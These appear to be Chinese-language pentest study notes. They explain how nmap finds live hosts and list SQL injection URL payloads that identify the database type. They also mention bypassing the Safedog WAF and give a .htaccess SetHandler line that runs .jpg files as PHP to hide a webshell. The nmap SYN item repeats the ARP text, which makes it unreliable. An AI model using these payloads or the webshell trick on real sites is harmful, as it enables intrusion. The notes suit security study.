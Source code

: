   




### nmap的原理

1. 基于ARP，nmap -PR + ip地址；nmap向所在网段发送大量ARP请求广播，如果目标主机存活，则会收到ARP响应，若一段时间后没有收到相应，则认为主机死亡。
2. 基于ICMP，nmap -PE + ip地址；发送ICMP相应请求，如果得到目标主机回应的ICMP响应，则说明该主机处于活跃状态
3. 通过TCP SYN  三次握手；nmap -PR + ip地址，原理：nmap向所在网段发送大量ARP请求广播，如果目标主机存活，则会收到ARP响应，若一段时间后没有收到相应，则认为主机死亡。
4. 基于UDP

### sql注入数据库类型判断方法

1. 通过页面返回的报错信息，一般情况下页面报错会显示是什么数据库类型
2. 通过常见端口做初步判断
3. 通过各个数据库特有的数据表来判断

```sql
mssql
http://127.0.0.1/test.php?id=1 and (select count(*) from sysobjects)>0 and 1=1

access
http://127.0.0.1/test.php?id=1 and (select count(*) from msysobjects)>0 and 1=1
  
mysql（5.0以上）
http://127.0.0.1/test.php?id=1 and (select count(*) from information_schema.TABLES)>0 and 1=1

oracle
http://127.0.0.1/test.php?id=1 and (select count(*) from sys.user_tables)>0 and 1=1

```

4. 通过各数据库特有的连接符判断数据库类型

```sql
1、mssql数据库
http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'

2、mysql数据库
http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'

3、oracle数据库
http://127.0.0.1/test.php?id=1 and '1'||'1'='11'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11
```

### 安全狗查杀方式

> 不是追踪变量，是根据特征码，所以很好绕过了，只要思路宽，绕狗绕到欢，但这应该不会是一成不变的。



### .htaccess文件作用

> 修改配置文件，解析其他后缀，用于隐藏webshell
>
> SetHandler application/x-httpd-php  
> .jpg文件会被解析成.php文件。
